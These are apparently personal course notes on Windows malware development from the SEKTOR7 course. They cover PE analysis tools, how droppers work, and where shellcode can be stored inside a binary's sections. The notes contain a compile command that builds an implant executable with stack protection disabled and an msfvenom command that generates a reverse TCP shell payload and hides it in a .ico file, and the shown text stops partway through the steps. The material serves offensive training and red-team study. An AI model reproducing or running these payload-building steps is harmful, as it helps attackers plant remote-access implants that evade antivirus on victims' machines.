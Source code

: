 # Notes of course Malware Dev Essentials

https://www.youtube.com/@MeetSEKTOR7

All credits for => ```author: reenz0h (twitter: @sektor7net)```


# Binary Analyze

- Files Formats
  - https://github.com/angea

- PE-bear
  - https://github.com/hasherezade/pe-bear-releases
  - https://hshrzd.wordpress.com/pe-bear/

- Visual Studio Command line
  - dumpbin /headers c:\path\to\bin

- Proccess Hacker (advanced task manager)
  - https://processhacker.sourceforge.io/


# Droppers

- Droppers are special code/programs witch are use to delivery your payload to the target. Dropper can be very simple. 
  The main function on/of the dropper is to delivery your main payload to the machine and execute.

- Store payload/shellcode in .text, .data, .rsrc section on binaries...
  - Droppers
    - DataSectionpayload.cpp
    - TextSectionpayload.cpp
    - these and other implants/droppers can be compiled like this:
    ``` 
    @ECHO OFF
    cl.exe /nologo /Ox /MT /W0 /GS- /DNDEBUG /Tcode.cpp /link /OUT:implant.exe /SUBSYSTEM:CONSOLE /MACHINE:x64
    ```

- AV or EDRs can see memory containing READ,WRITE,EXEC perms...????


#### Shellcode stored in a .ico file (create files and compile implant)
  - implant RsrcSectionpayload.cpp

1 - put shellcode in .ico file (Ex: payload.ico)
    ```
    msfvenom -p windows/x64/shell/reverse_tcp LHOST=192.168.1.246 LPORT=4444 -f raw -o payload.ico
    ```

2 - create file resources.h
